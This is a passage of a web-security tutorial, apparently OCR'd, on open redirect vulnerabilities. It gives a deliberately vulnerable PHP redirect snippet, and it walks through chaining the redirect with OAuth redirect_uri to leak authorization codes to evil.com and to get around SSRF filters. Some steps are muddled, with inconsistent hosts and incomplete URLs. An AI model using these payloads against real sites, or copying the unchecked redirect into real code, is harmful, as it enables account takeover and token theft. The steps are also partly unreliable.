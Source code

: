 ```php
<?php
$redirect_url = $_GET['url'];
echo "I'm a dummy page";
header("Location: " . $redirect_url);
?>
```
In this instance, the user gets redirected to the value of the `url` argument by passing the parameter `url` straight to the header `Location`. The server reroutes the user to the URL supplied by the `url` argument if you insert `//evil.com` to the parameter.

### **An example of an account takeover is:**

If your target is configured for OAuth, the URL may appear as follows once a user authenticates with their credentials:

`https://vulnerable.com/v1/oauth/authorize?response_type=code&client_id=CLIENT_ID`

Where the user is redirected by the service following the issuance of an authorization code (`redirect_uri=CALLBACK_URL`).

`return_uri=` handles the final destination with the token when authenticating using OAuth. As the site in the example above will return to `https://www.vulnerable.com/callback` with a `?code=`, defined in `response_type=code`, you will be able to leak the token if you can **redirect the user to a website under your control**. `*.theirdomain.com/*` is typically whitelisted in OAuth configurations. By leveraging the open redirect we previously discovered, we can get around this. (The process is the same, but the settings could change.)

---

### **Using Open Redirect Abusively to Obtain Access Tokens:**

1. The user can be forwarded to the following URL:  
   `https://vulnerable.com/v1/oauth/authorize?client_id=CLIENT_ID&redirect_uri=`.  
   This URL redirects to `https://www.vulnerable.com/evil.com`. As `example.com` is on the whitelist, this will be accepted as `redirect_uri`.

2. The token will be produced after the user authenticates.

3. After being sent to `https://www.example.com/redirect?url=//evil.com?code=secret`, the web application.

4. The online application points to `//evil.com/secret` when redirected.

5. You may now use the code to access the victim's account as you have the code parameter on your server.

---

### **Abuse of Open Redirect for SSRF Filter Circumvention:**

One common method of getting around filters is to employ open redirect. Let's say that a certain domain may redirect to any location, but your service is permitted to get material from it. After accessing the authorized server, an attacker is free to travel wherever they choose.

---